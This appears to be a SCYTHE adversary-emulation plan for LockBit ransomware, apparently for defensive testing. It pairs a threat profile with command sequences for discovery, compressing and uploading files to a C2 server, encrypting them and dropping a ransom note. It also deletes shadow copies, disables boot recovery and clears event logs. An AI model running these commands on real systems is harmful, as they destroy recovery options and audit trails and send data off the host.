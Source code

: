 # LockBit

## Executive Summary
LockBit was first observed in September 2019 when it was initially dubbed the “.abcd virus” in reference to the file extension it appended when encrypting files. This group is a ransomware-as-a-service (RaaS) operation and continues to be one of the most prolific ransomware groups to date. Recent research from GuidePoint Security notes that the number of attacks attributed to LockBit more than doubled the remaining top five groups (Vice Society, AlphV, Royal, and Play). Lockbit attacks typically employ a double extortion tactic, first requesting victims to pay to decrypt their data, and then requesting payment to prevent their data from being shared publicly.

## Cyber Threat Intelligence

### Profile
LockBit 2.0 operates as an affiliate-based Ransomware-as-a-Service (RaaS) and employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. Initial access is obtained through a variety of techniques, including, but not limited to, purchased access, unpatched vulnerabilities, insider access, and zero day exploits.

Upon execution, Lockbit 2.0 determines the system and user language settings and only targets those not matching a set list of languages that are Eastern European. If an Eastern European language is detected, the program exits without infection. As infection begins, Lockbit 2.0 deletes log files and shadow copies residing on disk. Lockbit 2.0 enumerates system information to include hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices. Lockbit 2.0 attempts to encrypt any data saved to any local or remote device but skips files associated with core system functions.


### Aliases
* LockBit Red

### Targets
* The United States is heavily targeted although organizations in much of Western Europe, China, India, Indonesia, and Ukraine have seen attacks as well.
* BlackBerry research indicates that the average ransom paid by its victims is $85,000 which is suggestive of LockBit targeting small to medium sized organizations.
* Primarily Windows systems

### Objectives
* Data theft
* Financial gain
* Operations disruption

### Capabilities
* Data encryption
* Self-propagating, worm-like spreading
* Defense evasion
* Time-based encryption
  * can encrypt files at a specific time (such as business hours) to maximize impact on victim

## Automated Emulation
*** Note this threat is impactful if running with high privilege ***
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under LockBit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/LockBit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: LockBit
6. Launch the Campaign

## Manual Emulation

Launch a campaign with the C2 parameters you wish to use. 

Once you have a shell, execute the following procedures:
```
loader --load run
```
Determine the language of the target operating system:
```
run reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language
```
LockBit does not execute on systems set with Eastern European languages. The return of the reg query should not match
```
2092 1068 1067 1059 1079 1087 1088 2073 1049 1064 1090 2115 1091
```
Perform discovery procedures:
```
run whoami
loader --load printscr
printscr --window Desktop
loader --load sysinfo
sysinfo
loader --load processes
processes
run cmd /c dir %USERPROFILE%\Documents
run net use
```
Prepare the system for impact TTPs:
```
run cmd /c mkdir "%USERPROFILE%\Desktop\LockBit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\LockBit\target_files.xls" --size 5MB --count 10 --random
```
Exfiltrate:
```
loader --load upsh
upsh --cmd "Compress-Archive -Path $env:userprofile\Desktop\LockBit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\LockBit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\LockBit\exfil.zip"
```
Encrypt the files:
```
file --create --path "%USERPROFILE%\Desktop\LockBit_Ransomware.hta" --size 1MB --random
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\LockBit\" --encrypt --password "LockBit" --erase --extension lockbit
```
Download the ransom note and open it:
```
loader --load downloader
downloader --src "VFS:/shared/threats/LockBit/Restore-My-Files.txt" --dest "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
run powershell notepad "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
```
Clean up:
```
run cmd /c rmdir /Q /S ""%USERPROFILE%\Desktop\LockBit""
run cmd.exe /c del "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
```
If running with high privilege and want to run the risky TTPs:
```
controller --integrity
run vssadmin Delete Shadows /All /Quiet
run bcdedit /set {default} recoveryenabled No
run bcdedit /set {default} bootstatuspolicy ignoreallfailures
run wmic SHADOWCOPY /nointeractive
run wevtutil cl security
run wevtutil cl system
run wevtutil cl application
run vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```
Shutdown the payload
```
controller --shutdown
```

## References
- [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)